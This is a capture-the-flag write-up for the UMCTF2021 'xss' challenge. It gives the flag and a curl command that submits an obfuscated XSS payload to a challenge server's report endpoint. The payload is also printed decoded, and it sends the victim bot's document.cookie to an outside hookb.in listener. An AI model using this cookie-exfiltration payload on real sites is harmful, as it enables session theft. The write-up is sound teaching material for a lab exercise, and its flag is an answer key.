

# UMCTF2021 - xss

- Write-Up Author: bluebear \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:MOCSCTF{easy_xsssssss!}

## **Question:**
xss

[main.py](./src/main.py)

## Write up

---

1. go to https://hookbin.com/ create a post listener
  
2. post the payload with below  
```shell
curl -X post http://13.75.78.108:31009/report -d "url=http://13.75.78.108:31009/?xss=%3Cscript%3Eeval(atob(%27bmV3IEltYWdlKCkuc3JjPSdodHRwczovL2hvb2tiLmluL2t4VktMZ2tiVk9mck9Pb0xiRWo2Lz8nK2RvY3VtZW50LmNvb2tpZQ==%27))%3C/script%3E"
```  
the script is 
```javascript
eval(atob(btoa("new Image().src='https://hookb.in/kxVKLgkbVOfrOOoLbEj6/?'+document.cookie")))
```
>eval() excute the javascript  
atob() decode base64 strings  
btoa() encode string to base64  
new image() create image in HTML and create get request to bookb.in  

  

